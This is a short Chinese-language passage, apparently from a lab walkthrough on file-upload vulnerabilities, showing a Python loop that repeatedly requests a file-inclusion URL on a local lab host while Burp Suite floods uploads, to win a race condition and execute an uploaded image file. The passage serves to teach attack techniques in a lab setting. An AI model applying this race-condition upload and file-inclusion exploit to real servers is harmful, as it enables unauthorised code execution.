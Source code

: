 ![image-20221215095844397](assets/image-20221215095844397.png)

这里我们要修改python脚本，因为这关我们要配合文件包含漏洞。

```python
import requests
url = "http://upload.com:9099/include.php?file=upload/123.png"
while True:
    html = requests.get(url)
    if ('Warning' not in str(html.text)):
        print('ok')
        break
```

BP开始攻击，同时运行python脚本
